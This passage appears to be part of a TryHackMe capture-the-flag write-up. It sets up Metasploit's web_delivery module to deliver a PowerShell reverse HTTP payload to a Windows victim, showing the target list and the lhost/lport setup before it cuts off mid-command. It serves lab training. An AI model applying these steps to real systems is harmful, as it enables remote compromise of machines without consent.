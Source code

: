 <div className="Image__Medium">
  <img src="https://i.imgur.com/1LzGblJ.jpg" alt="blog_image" />
</div>

### #1 Return to your attacker machine for this next bit. Since we know our victim machine is running Windows Defender, let's go ahead and try a different method of payload delivery! For this, we'll be using the script web delivery exploit within Metasploit. Launch Metasploit now and select

'exploit/multi/script/web_delivery' for use.

<div className="Image__Medium">
  <img src="https://imgur.com/a2c5dWx.png" alt="blog_image" />
</div>

### #2 First, let's set the target to PSH (PowerShell). Which target number is PSH?

```bash
msf5 exploit(multi/script/web_delivery) > show targets

Exploit targets:

   Id  Name
   --  ----
   0   Python
   1   PHP
   2   PSH
   3   Regsvr32
   4   pubprn
   5   PSH (Binary)
   6   Linux
   7   Mac OS X
```

```bash
2
```

### #3 After setting your payload, set your lhost and lport accordingly such that you know which port the MSF web server is going to run on and that it'll be running on the TryHackMe network.

<div className="Image__Medium">
  <img src="https://imgur.com/aa4eaMs.png" alt="blog_image" />
</div>

### #4 Finally, let's set our payload. In this case, we'll be using a simple reverse HTTP payload. Do this now with the command: 'set payload
